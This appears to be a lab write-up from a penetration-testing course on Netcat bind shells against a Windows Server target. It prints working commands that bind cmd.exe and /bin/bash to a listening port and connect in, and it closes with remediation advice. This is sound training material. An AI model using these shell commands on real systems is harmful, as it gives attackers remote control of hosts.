









# Bind Shells

**Classification:** Host & Network Penetration Testing / Exploitation<br>
**Target:** demo.ine.local (10.2.25.207) — WIN-OMCNBKR66MN, Windows Server 2012 R2<br>
**Attacker:** 10.10.41.5 (Kali)<br>
**Objective:** Set up a bind shell with Netcat.

## 1. Executive Summary

A **bind shell** listens on the victim and binds a shell process to the port; the attacker
connects *in* (the opposite of a reverse shell). We demonstrate both directions with
Netcat: binding `cmd.exe` on the Windows target and connecting from Kali, then binding
`/bin/bash` on Kali and connecting from the Windows host.

## 2. Recon

```bash
ping -c 4 demo.ine.local      # 10.2.25.207
```



## 3. Transferring nc.exe

```bash
cd /usr/share/windows-binaries
python -m SimpleHTTPServer 80
```





## 4. Bind Shell on the Target (cmd.exe)

On the target, bind `cmd.exe` to port 1234.

```cmd
nc.exe -nvlp 1234 -e cmd.exe
```



From the attacker, connect in.

```bash
nc -nv 10.2.25.207 1234
```



We land an interactive shell as `win-omcnbkr66mn\administrator`.

```cmd
whoami
systeminfo
```



## 5. Bind Shell on the Attacker (/bin/bash)

The same works the other way: bind `/bin/bash` on Kali.

```bash
nc -nvlp 1234 -c /bin/bash
```



From the Windows host, connect in.

```cmd
nc.exe -nv 10.10.41.5 1234
```



The Windows host now controls a `/bin/bash` shell on Kali.

```bash
pwd      # /root
ls
```



## 6. Remediation Recommendations

1. **Host firewalls** — block unexpected inbound listeners; a bind shell needs an open port.
2. **Application allow-listing** (WDAC/AppLocker) to stop `nc.exe` and similar tooling.
3. **EDR/AV** to detect `netcat` binding a shell process (`-e`/`-c`).
4. **Network segmentation & least privilege** to limit what a bound shell can reach.
